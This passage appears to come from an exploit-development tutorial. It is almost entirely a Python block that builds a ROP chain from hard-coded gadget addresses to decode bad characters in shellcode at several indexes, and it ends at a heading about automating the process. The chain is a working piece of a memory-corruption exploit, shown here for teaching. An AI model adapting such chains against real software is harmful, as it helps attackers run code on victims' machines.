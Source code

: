 ```python


# Decode bad char at index 6
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xfffffff4) # offset to bad char at index 6
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
    


# Decode bad char at index 5
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xffffffff) # offset to bad char at index 5
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
    


# Decode bad char at index 4
ROPDecoder += pack("<L", 0x5050118e) # mov eax, esi ; pop esi ; ret  ;
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop esi
ROPDecoder += pack("<L", 0x5052db24) # pop ecx ; ret  ;
ROPDecoder += pack("<L", 0xffffffff) # offset to bad char at index 4
ROPDecoder += pack("<L", 0x5051579a) # add eax, ecx ; ret  ; Make eax point to the badchar to decode
ROPDecoder += pack("<L", 0x505263f9) # push eax ; pop esi ; pop ebx ; ret  ; get back the pointer to ESI
ROPDecoder += pack("<L", 0x41414141) # dummy value for pop ebx
ROPDecoder += pack("<L", 0x5053a0f5) # pop eax ; ret  ;
ROPDecoder += pack("<L", 0x05050505) # decoding value
ROPDecoder += pack("<L", 0x5050626e) # add byte [esi+0x3B], ah ; ret  ; decode the bad character
```
# Automate The Process
